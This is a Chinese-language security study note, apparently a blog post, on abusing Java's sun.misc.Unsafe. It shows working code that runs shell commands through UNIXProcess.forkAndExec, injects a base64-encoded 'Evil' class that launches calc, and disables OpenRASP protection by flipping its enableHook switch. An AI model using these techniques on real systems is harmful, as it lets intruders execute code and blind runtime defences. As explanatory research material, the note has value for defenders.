



# sun.misc.Unsafe

`sun.misc.Unsafe`提供了一些底层操作，如内存、CAS、类、对象

`Unsafe`是Java内部API，不允许外部调用

```java
A collection of methods for performing low-level, unsafe operations. Although the class and all methods are public, use of this class is limited because only trusted code can obtain instances of it.
public final class Unsafe {
    private Unsafe() {}

    private static final Unsafe theUnsafe = new Unsafe();
    
    @CallerSensitive
    public static Unsafe getUnsafe() {
        Class<?> caller = Reflection.getCallerClass();
        if (!VM.isSystemDomainLoader(caller.getClassLoader()))
            throw new SecurityException("Unsafe");
        return theUnsafe;
    }
    
}
```

`Unsafe`采用了单例模式，其`getUnsafe()`方法会先判断调用者（`Reflection.getCallerClass();`）的类加载器`classLoader`是否为`Bootstrap Classloader`

可以使用反射来获取`Unsafe`对象

```java
Class clazz = Class.forName("sun.misc.Unsafe");
Field getUnsafe = clazz.getDeclaredField("theUnsafe");
getUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe) getUnsafe.get(null);
```

# allocateInstance

若RASP限制了某些类的构造方法

可以用`Unsafe`的`allocateInstance`方法绕过这个限制

Google的`GSON`库在JSON反序列化的时候就使用这个方式来创建类实例



```java
String cmd = "whoami";

int[] ineEmpty = {-1, -1, -1};
Class clazz = Class.forName("java.lang.UNIXProcess");
Unsafe unsafe = Utils.getUnsafe();
Object obj = unsafe.allocateInstance(clazz);
Field helperpath = clazz.getDeclaredField("helperpath");
helperpath.setAccessible(true);
Object path = helperpath.get(obj);
byte[] prog = "/bin/bash\u0000".getBytes();
String paramCmd = "-c\u0000" + cmd + "\u0000";
byte[] argBlock = paramCmd.getBytes();
int argc = 2;
Method exec = clazz.getDeclaredMethod("forkAndExec", int.class, byte[].class, byte[].class, byte[].class, int.class, byte[].class, int.class, byte[].class, int[].class, boolean.class);
exec.setAccessible(true);
exec.invoke(obj, 2, path, prog, argBlock, argc, null, 0, null, ineEmpty, false);
```

注意这个方法并不会执行任何构造方法

有时候使用反射去创建实例时，会遇到各种复杂的类依赖关系，此时也可以考虑用这个去实例化对象

# 内存层面修改值

```java
package org.demo;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class UnsafeTest {
    private int offset = 1;
    private String cmd = "whoami";

    static public String SECRET = "666";

    public UnsafeTest() {
    }

    public int getOffset() {
        return offset;
    }

    public String getCmd() {
        try {
            BufferedReader reader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            StringBuilder builder = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                builder.append(line);
                builder.append(System.getProperty("line.separator"));
            }
            return builder.toString();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

在JVM中，对实例的Field进行了有规律的存储，通过一个偏移量可以从内存中找到相应的Field值

`Unsafe`提供两个方法来获取Field的偏移量

`staticFieldOffset(Field var1)`和`objectFieldOffset(Field var1)`

获取偏移量后可以调用`putObject`、`putInt`等方法来修改对象的成员值

```java
Class clazz = Class.forName("sun.misc.Unsafe");
Field getUnsafe = clazz.getDeclaredField("theUnsafe");
getUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe) getUnsafe.get(null);

UnsafeTest unsafeTest = new UnsafeTest();
System.out.println(unsafeTest.getCmd());

Class test = Class.forName("org.demo.UnsafeTest");

Field cmd = test.getDeclaredField("cmd");
unsafe.putObject(unsafeTest, unsafe.objectFieldOffset(cmd), "calc");
System.out.println(unsafeTest.getCmd());

Field secret = test.getDeclaredField("SECRET");
unsafe.putObject(unsafeTest, unsafe.staticFieldOffset(secret), "hacked");
System.out.println(unsafeTest.SECRET);
```

当`Field`的`set`方法被限制时，可以考虑这种方法绕过

但对`final`修饰的字段貌似改不了

# defineClass

`Unsafe`提供了一个`defineClass`方法，传入类名、类字节码可以在JVM中注册一个类



```java
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.security.CodeSource;
import java.security.ProtectionDomain;
import java.security.cert.Certificate;
import java.util.Base64;

public class test {
    public static void main(String[] args) throws Exception {
        // byte[] code = ClassPool.getDefault().getCtClass("Evil").toBytecode();
        // System.out.println(Base64.getEncoder().encodeToString(code));
        String CLASS_BYTE_Base64 = "yv66vgAAADQAKAoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMRXZpbDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwACgALBwAiDAAjACQBAARjYWxjDAAlACYBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAAoAJwEABEV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAAAgABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAAMADgAAAAwAAQAAAAUADwAQAAAACAARAAsAAQAMAAAAZgADAAEAAAAXuAACEgO2AARXpwANS7sABlkqtwAHv7EAAQAAAAkADAAFAAMADQAAABYABQAAAAYACQAJAAwABwANAAgAFgAKAA4AAAAMAAEADQAJABIAEwAAABQAAAAHAAJMBwAVCQABABYAAAACABc=";

        Class clazz = Class.forName("sun.misc.Unsafe");
        Field getUnsafe = clazz.getDeclaredField("theUnsafe");
        getUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) getUnsafe.get(null);

        // 获取系统的类加载器
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();
        // 创建默认的保护域
        ProtectionDomain domain = new ProtectionDomain(
                new CodeSource(null, (Certificate[]) null), null, classLoader, null
        );
        byte[] b = Base64.getDecoder().decode(CLASS_BYTE_Base64);
        unsafe.defineClass("Evil", b, 0, b.length, classLoader, domain);
        Class.forName("Evil");
    }
}
```

注意`Unsafe#defineClass`只能在JVM中`define`一个类，不会加载这个类，所以最后通过`Class.forName`来触发其静态代码块

# defineAnonymousClass

`defineAnonymousClass`可以创建一个内部类

这个类的名字设置时甚至可以是已存在的类名，由于java动态编译特性会在内存中生成新的类名

无法通过Class.forName获取这个类的（`do not make it known to the class loader`）

这个类的classloader为null



```java
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import sun.misc.Unsafe;

import java.io.File;
import java.lang.reflect.Field;

public class test {
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("sun.misc.Unsafe");
        Field getUnsafe = clazz.getDeclaredField("theUnsafe");
        getUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) getUnsafe.get(null);

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("java.lang.String");
        CtMethod toString = CtMethod.make("public String toString(){java.lang.Runtime.getRuntime().exec(\"calc\");return null;}", ctClass);
        toString.setName("toString");
        ctClass.addMethod(toString);
        byte[] bytes = ctClass.toBytecode();

        Class anonymous = unsafe.defineAnonymousClass(File.class, bytes, null);
        System.out.println(anonymous.getName());
        anonymous.newInstance().toString();
    }
}
```

打印出类名为`java.lang.String/1645995473`，并弹出计算器

> Java 11 把`Unsafe`的`defineClass`方法移除了，但`defineAnonymousClass`还在

# Close RASP

> 一旦攻击者拿到了一个代码执行权限，那么他便可以通过反射的方式取得RASP运行在内存中的开关变量（多为boolean或者AtomicBoolean类型），并把它由true修改为false，就可以使RASP得的防护完全失效。**注意，开关变量只是其中一个最具代表性的思路，我们当然有更多的方法去破坏RASP的运行模式，如置空检测逻辑代码（如果RASP使用了js、lua等别的引擎），置空黑名单、添加白名单**

```java
Class clazz = Class.forName("com.baidu.openrasp.HookHandler");
Unsafe unsafe = getUnsafe();
InputStream inputStream = clazz.getResourceAsStream(clazz.getSimpleName() + ".class");
byte[] data = new byte[inputStream.available()];
inputStream.read(data);
Class anonymousClass = unsafe.defineAnonymousClass(clazz, data, null);
Field field = anonymousClass.getDeclaredField("enableHook");
unsafe.putObject(clazz, unsafe.staticFieldOffset(field), new AtomicBoolean(false));
```

# Summary

* 内存层面修改对象的字段

  * 绕反射限制
  * 关闭RASP开关

* 自定义类

  * 更加隐蔽的内存马
  * `defineAnonymousClass`生成的类无法通过反射获取其内部信息，且类加载器为`Bootstrap ClassLoader`，会被认为jdk自带的类

  

# Reference

* [内存级别攻防利器--UnSafe 的各种利用姿势 (seebug.org)](https://paper.seebug.org/1785/#_2)

* [【原创】Java内存攻击技术漫谈 - rebeyond - 博客园 (cnblogs.com)](https://www.cnblogs.com/rebeyond/p/15162264.html)
